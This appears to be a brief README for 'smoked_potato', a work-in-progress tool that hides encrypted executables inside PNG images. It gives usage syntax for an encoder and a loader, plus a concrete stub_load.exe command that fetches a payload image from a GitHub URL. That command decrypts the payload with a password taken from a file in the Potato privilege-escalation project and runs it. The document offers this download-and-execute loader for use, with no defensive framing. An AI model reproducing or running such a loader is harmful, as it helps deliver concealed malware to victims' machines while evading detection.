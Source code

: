 # smoked_potato
Encrypted binaries inside images... work in progress will be removed soon.

encoder.exe picture.png net_binary.exe pass urlpass/filepass offset output.png

loader.exe url password png_offset pass_offset program_args

stub_load.exe https://github.com/vvalien/smoked_potato/raw/master/potato hellothare 6208 1995
It will use https://raw.githubusercontent.com/foxglovesec/Potato/master/source/Potato/UpgradeLog.htm as the password

